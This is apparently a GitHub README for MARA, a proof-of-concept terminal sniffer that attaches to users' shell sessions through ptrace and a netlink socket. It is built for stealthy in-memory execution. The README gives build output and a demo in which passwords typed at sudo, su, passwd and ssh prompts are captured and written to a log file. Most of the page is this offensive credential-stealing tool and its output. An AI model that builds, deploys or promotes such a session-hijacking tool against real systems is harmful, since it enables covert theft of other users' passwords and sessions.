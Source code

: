 # MARA

MARA is a proof of concept tool waiting for shell execution with associated pty/tty using netlink socket to sniff user's terminal, as a static binary it works well with in memory execution using DEGU.

Concept behind this project comes from emptymonkey method of mitm a terminal ( look at [shelljack](https://github.com/emptymonkey/shelljack) project ) to intercept and log user session (including ssh session passwd sudo su passwords etc.)

To build it you need musl-gcc with musl kernel-headers for netlink objects

```
$ make
make -C ptrace_do
make[1]: Entering directory '/home/user/work/mara/ptrace_do'
make[1]: Nothing to be done for 'all'.
make[1]: Leaving directory '/home/user/work/mara/ptrace_do'
make -C ctty
make[1]: Entering directory '/home/user/work/mara/ctty'
make[1]: Nothing to be done for 'all'.
make[1]: Leaving directory '/home/user/work/mara/ctty'
musl-gcc  -I. -Ictty -Iptrace_do -Wall -Os -s -static main.c  log.c shelljack.c -o mara ptrace_do/libptrace_do.a ctty/libctty.a
$ sudo ./mara
(151814) 15:09:05.486343: main.c            jack              #34  	handle pid=151820 exe=/usr/bin/bash stdin=/proc/151820/fd/0 pty=/dev/pts/3 user=user
^C
$ sudo cat /tmp/user_151820_1659445745 
15:09 user@x03:~$ export LC_ALL=C
15:09 user@x03:~$ echo sniffed term ?
sniffed term ?
15:09 user@x03:~$ sudo su
[sudo] password for user: sniffed sudo ?
Sorry, try again.
[sudo] password for user: 
Sorry, try again.
[sudo] password for user: 
sudo: 3 incorrect password attempts
15:09 user@x03:~$ passwd 
Changing password for user.
Current password: sniffed passw ?
passwd: Authentication failure
passwd: password unchanged
15:09 user@x03:~$ ssh localhost -l sniffed 
sniffed@localhost: Permission denied (publickey).
15:09 user@x03:~$ 
exit
$ 

```

 
